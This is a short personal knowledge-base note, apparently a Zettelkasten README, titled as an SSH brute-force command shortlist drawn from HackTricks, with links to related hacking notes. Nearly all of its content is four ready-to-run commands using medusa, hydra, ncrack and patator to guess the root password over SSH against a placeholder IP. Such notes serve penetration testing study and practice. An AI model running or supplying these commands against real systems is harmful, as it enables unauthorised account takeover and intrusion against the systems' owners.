 # SSH brute force command shortlist from hacktricks
```bash
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

` zet/20221003150345/README.md `

# Related

- [20221014190050](/zet/20221014190050/README.md) kb file named kb/hacking/misc/bruteforcing-tools.md
- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:

    #hacking #bruteforcing 
